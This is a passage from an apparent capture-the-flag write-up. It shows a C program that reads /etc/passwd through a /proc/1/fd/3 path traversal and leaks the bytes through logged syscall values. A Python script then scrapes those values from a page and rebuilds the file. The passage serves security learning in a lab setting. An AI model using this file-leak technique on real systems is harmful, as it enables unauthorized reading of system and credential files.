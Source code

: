 ```

#include <stdio.h>

int main() {

    size_t bytesRead = 0;

    FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../../../etc/passwd", "r");
    FILE *log = fopen("/log", "a");
    char buf[64] = {0};
    ((unsigned long*)buf)[0] = 0xdfdf;

    while ((bytesRead = fread(&buf[56], 1, 8, file_to_read)) > 0) {
        fwrite(buf,1,64,log);
    }

    fclose(file_to_read);
    fclose(log);
}

```

This returns 182 syscalls!

![image-20220907142608161](https://0xdfimages.gitlab.io/img/image-20220907142608161.png)

#### Script File Download

I’ll write a Python script to grab all the syscalls and rebuild the file from that. [This video](https://www.youtube.com/watch?v=nGm36Hd-p4s) shows the development of the exploit:

The final script is:

```

#!/usr/bin/env python3

import re
import requests
import struct
import sys

if len(sys.argv) < 3:
    print(f"{sys.argv[0]} [url] [file]")
    exit()

resp = requests.get(sys.argv[1])
if resp.status_code != 200:
    print("Failed to fetch page")
    exit()

words = re.findall(r"sys_57311\(\) = 0x([a-f0-9]+)", resp.text)

res_file = b''.join([struct.pack("Q", int(w, 16)) for w in words])
with open(sys.argv[2], "wb") as f:
    f.write(res_file)

```
